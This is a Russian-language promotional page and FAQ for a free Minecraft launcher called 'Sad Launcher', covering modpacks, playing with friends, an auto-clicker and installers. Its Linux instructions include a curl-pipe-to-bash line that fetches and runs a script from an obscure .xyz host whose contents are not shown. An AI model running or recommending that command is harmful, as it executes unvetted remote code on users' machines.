

Windows
EXE · 18 МБСоздаёт ярлык на рабочем столе и в меню «Пуск». При выходе новой версии обновляется одним нажатием без потери миров.
Модпаки в одно нажатие, игра с другом по коду или в одной сети, эффекты с автозагрузкой модов, автокликер в миллисекундах и Java, которая ставится сама.
Каталог Modrinth и CurseForge адаптивно заполняет всю ширину окна без пустых полей, а зажатие колёсика плавно листает списки.

Архив качается частями в несколько потоков, конфиги пака распаковываются прямо в сборку, пока докачиваются моды.
Наведите курсор или кликните по любой карточке — интерактивная сетка покажет живые графики, пайплайн эффектов и сеть.
Бесплатно и без регистрации. Автоустановщик сам поставит лаунчер, создаст ярлыки и подготовит всё к запуску.
Создаёт ярлык на рабочем столе и в меню «Пуск». При выходе новой версии обновляется одним нажатием без потери миров.
Автоскрипт скачивает и устанавливает Sad Launcher.app в Программы без ручной сборки.
curl -fsSL https://rkt5jy.bot-keep.xyz/download/install-linux.sh | bash
Ставит бинарник и создаёт ярлык в меню приложений автоматически.
Нет. Достаточно придумать ник от 3 до 16 символов: сразу доступны одиночная игра, комнаты для друзей и вход на локальные или открытые серверы.
Откройте вкладку «Игра с другом». Создайте комнату из 5 цифр или откройте мир для сети, впишите порт и скопируйте один из двух адресов: зелёный — для одной Wi‑Fi сети, Radmin или Hamachi, внешний IP — для игры через интернет.
Эффекты меняют options.txt и ресурспак SadEffects.zip прямо во время игры — нажмите F3+T в Minecraft. Недостающие моды с Modrinth ставятся одной кнопкой.
Автокликер настраивается в миллисекундах (10 мс ≈ 100 кликов/с), включается своим биндом и кликает только в активном окне Minecraft. Защита от АФК — с интервалом до 60 минут.
Да. Лаунчер написан на Rust, в простое занимает десятки мегабайт оперативной памяти и не рисует кадры, пока окно в фоне. На время игры он сворачивается и отдаёт процессор и видеокарту Minecraft.
Большие файлы качаются несколькими частями параллельно, каждая по своему соединению, а моды пака — по 32 одновременно. Конфиги распаковываются прямо во время скачивания, а файлы, которые уже есть в других сборках, не скачиваются второй раз.
Когда выходит новая версия, лаунчер показывает карточку с размером обновления и кнопками «Обновиться», «Напомнить позже» и «Не показывать». Заменяется только сам exe — ник, миры, скины и сборки в %APPDATA%\Sad Launcher остаются на месте.
Для macOS есть установщик install-macos.command, который ставит Sad Launcher.app в Программы, для Linux — скрипт install-linux.sh, который кладёт программу и ярлык в меню приложений.
Все данные — в %APPDATA%\Sad Launcher на Windows и в стандартной папке данных пользователя на Linux и macOS. В настройках есть кнопка полного удаления: она убирает сборки, файлы и ярлыки.
Боковые кнопки мыши и Alt + ←/→ листают историю вкладок, клик колёсиком включает плавную автопрокрутку, Ctrl+1…7 переключают разделы, Ctrl+K или Ctrl+F — поиск.
Ничего не нашлось по «».
Остался вопрос?
Спросить на GitHub